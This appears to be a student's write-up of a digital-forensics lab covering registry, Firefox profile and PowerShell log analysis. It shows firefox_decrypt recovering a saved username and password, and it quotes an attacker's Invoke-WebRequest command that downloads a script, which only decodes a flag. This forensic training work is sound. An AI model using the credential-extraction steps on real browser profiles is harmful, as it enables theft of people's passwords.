






# Lab 2 Forensic

Link bài: https://github.com/vonderchild/digital-forensics-lab/tree/main/Lab%2002

### 1. Given the registry file of a system that was compromised, answer the following:

#### 1. What’s the mouse double-click speed?


Answer: **500**

#### 2. What’s the most recent typed path accessed as recorded in the registry?


Answer: **C:\Windows\System32\calc.exe**

#### 3. What’s the new value added to the registry by the malware in order to establish persistence over the system?
* Persistence: malware chạy khi máy bật



Answer: **C:\Users\w\Desktop\malware.exe**

### 2. Given the Firefox profile of a suspect, answer the following:

#### 1. What’s the username and password stored in the saved logins?

```bash
python3 /home/shirou/Downloads/firefox_decrypt/firefox_decrypt.py s6upyldt.default-release/ 
2026-11-09 23:27:22,424 - WARNING - profile.ini not found in s6upyldt.default-release/
2026-11-09 23:27:22,424 - WARNING - Continuing and assuming 's6upyldt.default-release/' is a profile location

Website:   https://www.reddit.com
Username: 'hackerman'
Password: 'sup3rs3cur3p4ssw0rd'
```

#### 2. What’s the most frequently visited website?

* Dùng sqlitebrowser đọc `places.sqlite`

Answer: **Amazon**

#### 3. What’s the name of the file downloaded by the suspect?


Answer: **python-3.11.1-amd64(1).exe**

### 3. Given the PowerShell Event logs of a compromised system, answer the following:

#### 1. What’s the command executed by the attacker to download a file on the system?

```bash
Invoke-WebRequest -UseBasicParsing -Uri https://raw.githubusercontent.com/vonderchild/digital-forensics-lab/main/Lab%202/files/file.ps1 -OutFile "file.ps1"
```

#### 2. Can you analyze the downloaded file and understand what’s the purpose of that file?

```bash
 $data ="SGVsbG8sIHVzZSBmbGFne2V2M250X2wwZ3NfZjByX3RoM193MW59IGFzIHRoZSBhbnN3ZXIgdG8gdGhlIG9yaWdpbmFsIHF1ZXN0aW9uLg==" 
 $flag = [System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String($data)) Write-Output $flag 
```
* Đoạn trên là decode đoạn mã
* Đoạn mã decode ra: **Hello, use flag{ev3nt_l0gs_f0r_th3_w1n} as the answer to the original question.**